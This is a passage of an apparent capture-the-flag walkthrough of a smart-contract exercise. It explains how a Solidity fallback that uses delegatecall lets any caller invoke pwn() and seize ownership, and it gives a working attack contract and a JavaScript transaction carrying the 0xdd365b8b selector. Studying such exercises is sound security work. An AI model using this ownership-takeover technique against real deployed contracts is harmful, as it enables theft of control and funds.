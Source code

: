 ```solidity
  constructor(address _delegateAddress) public {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }

  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data);
    if (result) {
      this;
    }
  }
}
```

### Vulnerable Parts

```solidity
  fallback() external {
    (bool result,) = address(delegate).delegatecall(msg.data); // <- can be used to call pwn()
    if (result) {
      this;
    }
  }

  function pwn() public {
    owner = msg.sender;
  }
```

### Attack!

1. Write a contract that will get you the function signature.

```solidity
contract AttackPwn {
    function selector() public view returns (bytes memory selector) {
        selector = abi.encodeWithSignature("pwn()");
        // or bytes4(keccak256(bytes("pwn()")));
    }
    function takeControl(address _delegationAddress) public {
        (bool success,) = _delegationAddress.call(selector());
        require(success);
    }
}
```

2. Check the function signature. Output: `bytes: selector 0xdd365b8b`
3. Trick the contract to fallback and use the `fallback()` to call `pwn()`. (Can be done in solidity / js)
   - In solidity call the `takeControl(address _delegationAddress)` we just wrote. This will grant `AttackPwn` the ownership.
   - In js
     ```javascript
     await sendTransaction({
       from: "my address",
       to: "contract address",
       data: "0xdd365b8b", // <- function selector goes here.
     });
     ```
4. Enjoy your ownership.
